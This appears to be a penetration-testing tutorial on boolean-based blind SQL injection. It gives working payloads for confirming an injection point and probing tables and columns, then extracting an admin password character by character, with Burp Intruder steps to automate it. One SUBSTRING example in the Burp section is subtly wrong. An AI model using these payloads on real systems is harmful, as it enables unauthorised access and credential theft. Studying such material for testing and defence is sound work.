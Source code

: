 This technique involves injecting conditions that return either **true** or **false**, observing the application's response.


---
## Cheat Sheets
It is very important to consult these resources available in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) to correctly execute an SQL injection attack after verifying its existence:
- [MySQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) 
- [Oracle SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)  
- [PostgreSQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
- [SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)


---



## 1. Verify Injection Point

Modify a parameter (e.g., `id`) to check if the application is vulnerable.

- **True Condition (Response is Normal):**
```sql
' AND 1=1 -- 
```
- **False Condition (Response is Different):**
```sql
' AND 1=2 -- 
```
If the response changes, the injection point is confirmed.

>**Note:** If the parameter is a numeric value (e.g., post_id=1), the boolean injection after the quote may not be necessary, as the number itself can be tested directly (e.g., post_id=1 OR 1=1).
## 2. Determine Table Existence

Check if a table (e.g., `users`) exists:
```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
```
If the response is **true**, the table `users` exists.

## 3.Determine Column Existence

Test for a specific column (e.g., `password` in `users` table):
```sql
' AND (SELECT 'a' FROM users WHERE password IS NOT NULL LIMIT 1)='a
```
If the response is **true**, the column `password` exists.

## 4. Extract Password Length

Use the `LENGTH()` function to find the length of the password:
```sql
' AND (SELECT 'a' FROM users WHERE username='admin' AND LENGTH(password)>1)='a
```
Increase the number until the response turns **false**, identifying the password length.

## 5. Extract Password Characters One by One

Use `SUBSTRING()` to retrieve each character. Example for the first character:
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a 
```
Repeat this process for all positions to reconstruct the full password.

#### Extracting characters using Burpsuite
1. **Send the Vulnerable Request to Intruder**  
   - Capture the vulnerable request in **Burp Suite**.  
   - Send it to Intruder (`Ctrl+I` or right-click → "Send to Intruder").  

2. **Set the Attack Type to Cluster Bomb**  
   - Go to the "Intruder" tab and select the "Positions" sub-tab.  
   - Set the attack type to "Cluster Bomb" (since we will use multiple payloads).  

3. **Configure the First Payload (Character Position)**  
   - Identify the parameter that references the **character position** in the SQL query, such as  `SUBSTRING(password, {POSITION}, 1)`
   - Select this position placeholder in the request.  
   - Assign it a numeric payload from 1 to the expected password length (e.g., `1-20`).  

4. **Configure the Second Payload (Character Extraction)**  
   - Identify the parameter that represents the **character to be checked** in the password, such as `SUBSTRING(password, POSITION, POSITION) = '{CHARACTER}'`
   - Select this parameter and assign it a character payload.  

5. **Set Up "Grep - Match" for Response Analysis**  
   - Navigate to the "Options" tab in Intruder.  
   - In the "Grep - Match" section, add a keyword that appears only in successful responses.
![](../../../../Images/Grep-Match-Burp.png)

6. Start the Attack  
   - Click the **"Start Attack"** button.  

7. Analyze the Results  
   - Burp Suite will generate a results table with multiple payload combinations.  
   - Look for a column with the keyword added in **Grep - Match**.  
   - The requests containing a **match** indicate a **correct character**.  
   - **Repeat the attack** for each position until the full password is extracted.  